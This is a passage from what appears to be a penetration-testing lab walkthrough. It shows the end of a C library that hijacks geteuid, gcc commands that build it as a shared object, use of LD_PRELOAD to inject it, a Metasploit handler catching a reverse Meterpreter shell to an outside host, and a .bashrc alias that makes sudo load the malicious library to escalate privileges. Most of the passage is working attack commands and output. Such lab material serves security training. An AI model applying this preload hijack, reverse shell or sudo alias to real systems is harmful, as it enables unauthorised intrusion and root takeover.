 ```c
		ret();
	}
	else
	{
		printf("HACK: returning from function...\n");
		return (*old_geteuid)();
	}
	printf("HACK: Returning from main...\n");
	return -2;
}
```

We compile `evileuid.c` with gcc:
```bash
offsec@linuxvictim:~$ gcc -Wall -fPIC -z execstack -c -o evil_geteuid.o evileuid.c

offsec@linuxvictim:~$ gcc -shared -o evil_geteuid.so evil_geteuid.o -ldl
```

Now we test it:
```bash
offsec@linuxvictim:~$ cp /etc/passwd /tmp/testpasswd

offsec@linuxvictim:~$ export LD_PRELOAD=/home/offsec/evil_geteuid.so

offsec@linuxvictim:~$ cp /etc/passwd /tmp/testpasswd
HACK: returning from function...
```

And we return to our meterpreter session:
```bash
msf5 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.119.120:1337
[*] Sending stage (3012516 bytes) to 192.168.120.46
[*] Meterpreter session 8 opened (192.168.119.120:1337 -> 192.168.120.46:58114) at 2020-07-28 16:58:40 -0400
meterpreter > getuid
Server username: no-user @ linuxvictim (uid=1000, gid=1000, euid=1000, egid=1000)
```


Before continuing, we’ll unset LD_PRELOAD which could have adverse effects on other system actions we’ll perform.
```bash
offsec@linuxvictim:~$ unset LD_PRELOAD
```

For escalation, we can use the previous approach of setting an alias for the sudo command in `.bashrc`:
```bash
alias sudo="sudo LD_PRELOAD=/home/offsec/evil_geteuid.so"
```

After loading it:
```bash
offsec@linuxvictim:~$ sudo cp /etc/passwd /tmp/testpasswd
HACK: returning from function...
``` 
